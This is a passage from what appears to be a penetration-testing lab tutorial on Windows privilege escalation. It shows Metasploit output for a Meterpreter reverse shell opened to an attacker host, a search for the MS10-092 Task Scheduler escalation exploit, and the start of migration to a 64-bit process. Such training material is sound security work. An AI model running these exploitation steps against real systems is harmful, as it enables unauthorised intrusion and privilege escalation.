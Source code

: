 ### Receiving a Reverse Shell
```shell-session
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

### Searching for Local Privilege Escalation Exploit

From here, let's search for the [MS10_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) module.
```shell-session
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

### Migrating to a 64-bit Process

Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. We could have also chosen an x64 Meterpeter payload during the `smb_delivery` step.
```shell-session
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
```